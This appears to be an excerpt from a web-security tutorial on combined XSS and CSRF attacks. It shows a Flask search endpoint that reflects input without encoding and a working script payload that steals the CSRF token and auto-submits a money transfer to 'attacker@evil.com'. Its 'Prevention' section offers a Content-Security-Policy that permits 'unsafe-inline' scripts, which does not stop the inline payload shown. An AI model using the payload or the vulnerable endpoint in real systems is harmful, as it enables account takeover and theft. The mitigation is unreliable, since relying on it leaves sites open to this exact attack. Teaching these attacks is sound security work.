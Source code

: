 ### Combined Attack Example

#### 1. **XSS Vulnerability**
```python
# Vulnerable endpoint that reflects user input
@app.route('/search')
def search():
    query = request.args.get('q', '')
    # Vulnerable: No output encoding
    return f"<h1>Search results for: {query}</h1>"
```

#### 2. **XSS Payload**
```html
<!-- Malicious search query -->
https://vulnerable-site.com/search?q=<script>
    // Steal CSRF token
    const token = document.querySelector('input[name="csrf_token"]').value;
    
    // Perform CSRF attack
    const form = document.createElement('form');
    form.method = 'POST';
    form.action = '/transfer';
    
    const tokenInput = document.createElement('input');
    tokenInput.name = 'csrf_token';
    tokenInput.value = token;
    
    const recipientInput = document.createElement('input');
    recipientInput.name = 'recipient';
    recipientInput.value = 'attacker@evil.com';
    
    const amountInput = document.createElement('input');
    amountInput.name = 'amount';
    amountInput.value = '5000';
    
    form.appendChild(tokenInput);
    form.appendChild(recipientInput);
    form.appendChild(amountInput);
    
    document.body.appendChild(form);
    form.submit();
</script>
```

### Prevention Against Combined Attacks

#### 1. **Content Security Policy (CSP)**
```python
@app.after_request
def add_csp_header(response):
    response.headers['Content-Security-Policy'] = (
        "default-src 'self'; "
        "script-src 'self' 'unsafe-inline'; "
        "style-src 'self' 'unsafe-inline'; "
        "img-src 'self' data: https:; "
        "connect-src 'self';"
    )
    return response
```
